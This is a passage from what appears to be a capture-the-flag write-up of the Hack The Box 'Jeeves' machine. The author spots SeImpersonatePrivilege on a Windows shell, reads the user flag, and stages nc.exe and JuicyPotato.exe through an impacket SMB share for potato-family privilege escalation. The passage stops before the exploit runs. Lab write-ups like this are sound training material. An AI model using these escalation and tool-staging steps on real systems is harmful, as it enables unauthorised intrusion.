 ```
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Users\Administrator\.jenkins>

```
One of the privileges is calling, use me!
It is this one: `SeImpersonatePrivilege`. This means we can use the potato family for privilege escalation.
First I would like to capture the user flag on this machine.
```
C:\Users\Administrator\.jenkins>cd ../../kohsuke/Desktop
cd ../../kohsuke/Desktop

C:\Users\kohsuke\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Desktop

11/03/2017  10:19 PM    <DIR>          .
11/03/2017  10:19 PM    <DIR>          ..
11/03/2017  10:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   2,416,840,704 bytes free

C:\Users\kohsuke\Desktop>type user.txt
type user.txt
---USER FLAG IS HERE---
C:\Users\kohsuke\Desktop>

```
Now we should copy netcat to our working directory where we have some exploits from the potato family as well.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .
```
We can start a SMB share on our Kali machine so we can copy the files to the Windows target.
```
┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ ll           
total 456
-rw-r--r-- 1 emvee emvee  57344 Nov 22 21:55 god.exe
-rw-r--r-- 1 emvee emvee 347648 Nov 22 22:05 JuicyPotato.exe
-rwxr-xr-x 1 emvee emvee  59392 Nov 22 22:06 nc.exe


┌──(emvee㉿kali)-[~/Documents/HTB/Jeeves]
└─$ sudo impacket-smbserver share $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
```